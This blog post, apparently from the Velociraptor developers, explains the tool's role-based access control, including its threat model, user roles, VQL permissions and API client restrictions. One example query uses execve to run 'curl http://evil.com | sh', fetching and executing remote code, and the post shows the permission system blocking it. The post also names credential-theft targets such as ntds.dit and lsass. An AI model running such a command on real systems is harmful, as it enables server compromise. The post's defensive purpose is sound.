


 on [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral)](https://cdn-images-1.medium.com/max/11762/0*1EbyprZe15SmrDlP?width=600px)*Photo by [Jose Fontano](https://unsplash.com/@josenothose?utm_source=medium&utm_medium=referral) on [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral)*

Velociraptor is a very powerful tool with a great deal of privileged access to many endpoints. Velociraptor clients typically run with System or root level access on endpoints, in order to have low level access to the operating system. It follows that administrators on Velociraptor also have privileged access to the entire domain as well — they are equivalent to domain administrators.

For small trusted teams of investigators this is probably fine, however as Velociraptor is being more widely deployed in enterprise environments it has become clear that we needed a more elaborate role based ACL model.

## What are the threats?

Thinking of the different ways Velociraptor may be abused can shed some light on what we are trying to protect and how to protect it. Suppose a malicious actor was able to compromise an account belonging to one of the Velociraptor deployment admins. What damage could they do?

### Viewing collected data

A malicious Velociraptor user can look at existing collected data, which might contain PII or security sensitive information. For example they might be able to inspect process execution log from any machine and determine further targets on the network.

### Collecting additional information from endpoints

The next level of threat is actual collection of new information. Some forensic information is very sensitive, and adversaries may actively collect it (for example copy out **ntds.dit** for [offline cracking](https://attack.mitre.org/techniques/T1003/) or dump out **lsass** memory for offline [credential recovery](https://www.onlinehashcrack.com/how-to-procdump-mimikatz-credentials.php)). A legitimate investigator would rarely need to perform these actions, but collecting files and dumping memory are normal routine forensic artifacts that are typically collected in the course of an investigation.

Clearly being able to misuse these artifact collections is a significant threat.

### Writing new artifacts

Velociraptor’s unique power lies in its flexible query language (VQL). Being able to write new VQL allows adversaries to run arbitrary code on the endpoint. New VQL can invoke the execve() VQL plugin which shells out with arbitrary command line arguments.

While is it convenient and even required to allow the Velociraptor endpoint to invoke the shell with arbitrary arguments, in the wrong hand it clearly represents a significant risk.

### Running VQL on the server

Velociraptor’s flexibility also allows for running arbitrary VQL queries on the server itself. This is useful for both managing the server (for example adding labels to clients) as well as post processing results from previous collections (For example by running VQL queries in the notebook cells to further filter collected artifacts).

While server side VQL is extremely useful, in the wrong hands it can result in complete server compromise. Since VQL can invoke the execve() plugin, being able to run server side VQL is equivalent to server shell access.

## Role based access control (RBAC)

Thinking about the threats in the previous section helped us get an understanding of how roles can help mitigate these risks. What do we mean by role based ACLs? We would like to assign users different roles, which control the type of activity they do. In this way, we can limit the amount of damage each user can do and reduce the number of powerful user accounts.

For example, we can come up with the following roles:

1. **reader**: This role provides the ability to read previously collected results but does not allow the user to actually make any changes. Sometimes we give customer sysadmins this role to allow them to see what we are doing on their network, but without allowing them to actually collect any data.

1. **analyst**: The next level up is an analyst — they are able to read existing collected data and also run some server side VQL in order to do post processing of this data or annotate it. Analysts typically use the notebook or download collected data offline for post processing existing hunt data. Analysts may not actually start new collections or hunts themselves.

1. **investigator**: The investigator role is the same as the analyst but can actually initiate new hunts or flow collections.

1. **artifact_writer**: This role allows a user to create or modify new client side artifacts (They are not able to modify server side artifacts). This user typically has sufficient understanding and training in VQL to write flexible artifacts. Artifact writers are very powerful as they can easily write a malicious artifact and collect it on the endpoint. Therefore they are equivalent to domain admins on endpoints. You should restrict this role to very few people.

1. **administrator**: Like any system, Velociraptor needs an administrator which is all powerful. This account can run arbitrary VQL on the server, reconfigure the server etc. Hopefully, the need for a user to have administrator level access is greatly reduced by the RBAC system.

## Permissions

In the previous section we saw how roles can be assigned to users to create a reasonable division of work and limit the power of each user to their prescribed role. How are these actually implemented in Velociraptor though?

Velociraptor’s flexibility makes direct implementation of an RBAC challenging. Since Velociraptor is really just a VQL engine, it does different things depending on the query issued. For example, this server side query examines the results of a hunt:

```
 SELECT * FROM hunt_results(hunt_id=”H.1234")
```

It is a perfectly valid post processing query and should be allowed, even inside the notebook, by any analyst.

However the query

```
 SELECT * FROM execve(argv=[“bash”, “-c”, “curl http://evil.com | sh”])
```

Is clearly a malicious query and should be blocked from the notebook (It can result in server compromise).

Velociraptor solves this by introducing a permission system. Each VQL plugin requires the caller to possess a particular permission. For example, the execve() plugin required the EXECVE permission (i.e. being allowed to run arbitrary shell commands). If the user does not have the permission, the plugin fails with an error.

Let’s look at this example more closely. I will create a user called “analystbob” and assign them the **analyst** role:


Bob is allowed to view and edit notebooks using the GUI since Bob is an analyst. Let’s see Bob creating a new notebook


Bob can even issue VQL queries for post processing and filtering of collected data. However, what happens if they try to issue the malicious VQL above within a VQL notebook cell?





Bob’s query returned no rows since the execve() plugin refused to run without the EXECVE permission, which Bob lacks.

Let’s see Bob browsing the Virtual Filesystem of an endpoint


The rest of the GUI does not allow Bob to actually collect any new data — for example the VFS view does not allow collecting new directory listing or new files (but Bob can still navigate already collected directories).

If Bob wants to collect new artifacts or perform new hunts, he will need to ask **investigatoralice** who has the **investigator** role to actually collect those. Similarly, if Bob wants to modify or implement a new artifact they will need to ask the user **sue** who has the **artifact_writer** role to be able to add the artifacts for him (Once the artifact is added, Alice can now collect it — she just can’t add it herself).

### Artifact permissions

Some artifacts are more sensitive than others. For example, the **Windows.System.CmdShell** artifact implements the interactive shell feature. It allows arbitrary commands to be executed by the command shell on the endpoint — a very powerful artifact indeed.


If we allowed an investigator role to run this artifact, they could easily escalate to System level access on the endpoint. Therefore we really should be limiting the permissions of users that are allowed to run this specific artifact.


The artifact definition itself specifies that this artifact requires the EXECVE permission. Let’s see what happens when **investigatoralice** attempt to collect that artifact.


Velociraptor refuses to schedule this artifact collection since alice does not have the execve permission (This is only available to administrators). Therefore only administrators can issue arbitrary commands on the endpoint.

Lets have a look at the available permissions (Permissions might evolve over time, but these are the defined permissions at this time)

](../../img/1pbqvWfXG2Gtg-cBuWGYqVw.png)*[https://github.com/Velocidex/velociraptor/blob/master/acls/proto/acl.proto](https://github.com/Velocidex/velociraptor/blob/master/acls/proto/acl.proto#L9)*

## API Clients

We have previously shown how Velociraptor can be accessed through the API. The Velociraptor API is very simple — it simply offers a single gRPC method called **Query** which allows clients to run arbitrary VQL queries on the server.

Previously there was no access controls on the VQL issue by the API client, so an API client could run any VQL queries. Typically API clients are used to automate post processing of hunts and flows and so they rarely need more sophisticated permissions.

It is now possible (even required) to limit the access of API clients by assigning them specific permissions depending on the queries they typically need to run.

For example, suppose I have a python program which watches for server events so it can post process them. The program will run the query

```
SELECT * FROM watch_monitoring(artifact=’System.Flow.Completion’)
```

This program only needs the following permissions

1. The **any_query** permission is required to issue any VQL queries

1. The **collect_server** permission is required to collect any information from the server itself (i.e. about server state).

1. The **read_results** permission is required to see any endpoint data already collected

First I will create an API config file for this program, then grant the API client the minimum required permissions.

```
> velociraptor config api_client api_config.yaml --name PythonPostProcess
> velociraptor acl grant PythonPostProcess ‘{“any_query”:true,”collect_server”:true,”read_results”:true}’
```

Note the **acl grant** command grants an ACL policy object to the specific username or API keys name. The policy object is simply a JSON encoded object with the required permission set to true.

We can now use the [pyvelociraptor](https://github.com/Velocidex/pyvelociraptor) Python program to connect to the API and run the query.


Imagine if this API key was compromised and the attackers attempted to run the shell command on the server through the API. The server logs show the API call being made and then immediately a permission denied due to EXECVE permission missing. The power of the key is limited by the restricted permissions.


## Conclusions

Velociraptor role based access controls allows for greater division of labor within the Velociraptor DFIR team. The roles limit the level of damage that can be done with a user account compromise.

However, we must remember still that Velociraptor is still a very privileged program with a lot of access. It is inherently difficult to predict how privilege can be escalated — after all Velociraptor collects highly sensitive forensic artifacts whose disclosure can sometime result in PII or security incidents. It is still a good idea to limit access to the Velociraptor GUI to the minimum number of people that need it, and esure the entire team is trained at how to wield Velociraptor effectively.
